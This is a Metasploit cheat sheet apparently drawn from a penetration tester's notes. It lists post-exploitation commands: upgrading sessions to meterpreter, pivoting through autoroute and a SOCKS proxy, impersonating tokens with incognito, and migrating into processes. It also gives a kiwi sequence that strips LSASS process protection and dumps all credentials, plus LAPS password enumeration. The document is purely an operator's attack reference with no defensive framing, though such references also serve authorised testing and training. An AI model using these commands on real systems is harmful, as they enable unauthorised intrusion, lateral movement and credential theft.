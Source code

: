 # MSF

% metasploit

## upgrade session to meterpreter
#platform/linux #target/remote #cat/ATTACK/CONNECT  
```
sessions -u <session_id>
```

## show session list
#platform/linux #target/remote #cat/ATTACK/CONNECT
```
sessions -l
```

## print route table
#platform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
```
route print
```

## add pivot (autoroute)
#platform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
example : 
use multi/manage/autoroute
set session 1
exploit
```
use multi/manage/autoroute
```

## add socks proxy (autoroute first)
#platform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 

example : 
use multi/manage/autoroute
set session 1
exploit
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
exploit -j

```
use auxiliary/server/socks_proxy
```

## load incognito 
#platform/linux #target/local #cat/PRIVESC  
```
load incognito
```

## incognito impersonate token
#platform/linux #target/local #cat/PRIVESC  
```
impersonate_token <domain>\\<user>
```
## create process
#platform/linux #target/local #cat/UTILS 
```
execute -H -f <process|notepad>
```

## migrate with name
#platform/linux #target/local #cat/ATTACK/INJECTION 
```
migrate -N <process_name|notepad.exe>
```

##  PPL remove
#platform/linux #target/local #cat/ATTACK/INJECTION 
```
load kiwi
kiwi_cmd "!processprotect /process:lsass.exe /remove"
creds_all
```

## enum LAPS
#platform/linux #target/local #cat/ATTACK
```
use post/windows/gather/credentials/enum_laps
```

